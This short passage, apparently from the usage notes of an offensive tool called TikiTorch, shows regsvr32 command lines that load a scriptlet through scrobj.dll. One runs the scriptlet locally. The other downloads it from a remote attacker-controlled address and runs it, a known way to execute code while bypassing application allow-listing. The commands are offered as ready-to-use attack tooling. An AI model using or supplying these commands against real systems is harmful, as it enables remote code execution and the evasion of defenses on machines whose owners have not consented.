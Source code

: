 ## regsvr32

```
regsvr32 /s /n /u /i:TikiTorch.sct scrobj.dll
regsvr32 /s /n /u /i:http://<ip>/TikiTorch.sct scrobj.dll
```

> File extension not required with regsvr32
